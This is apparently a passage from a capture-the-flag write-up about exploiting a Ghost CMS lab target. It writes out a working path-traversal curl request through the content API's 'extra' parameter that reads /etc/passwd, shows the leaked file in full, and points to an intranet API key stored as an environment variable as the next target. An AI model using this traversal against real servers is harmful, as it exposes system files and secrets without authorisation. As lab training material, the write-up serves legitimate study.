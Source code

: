 The path for `fs.readFileSync` function is not sanitized, which means it may be possible for LFI using travesal `../` method

Googling for Ghost API key documentation (https://ghost.org/docs/content-api/):
- API URL is at: `https://{admin_domain}/ghost/api/content/`
- Content API keys are provided via a query parameter in the URL `?key={key}`

Attempt to read `/etc/passwd` with the Ghost API:

```sh
curl -s "http://ghost.htb:8008/ghost/api/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a" | jq
```

The file data is in `"extra"`:

```json
{
  "posts": [
    {
      "id": "65bdd2dc26db7d00010704b5",
      "uuid": "22db47b3-bbf6-426d-9fcf-887363df82cf",
      "title": "Embarking on the Supernatural Journey: Welcome to Ghost!",
      "slug": "embarking-on-the-supernatural-journey-welcome-to-ghost",
      ⋮
        <truncated>
      ⋮
    }
  ],
  "meta": {
    "extra": {
      "../../../../etc/passwd": "root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nnode:x:1000:1000:Linux User,,,:/home/node:/bin/sh\n"
    }
  }
}
```

> [!Note]
>
> `/etc/passwd` exists even though the target is a Windows machine suggests that Ghost CMS is running in a Linux container

Recall that the blog integrates with intranet via an API key named `DEV_INTRANET_KEY`, stored as an environment variable
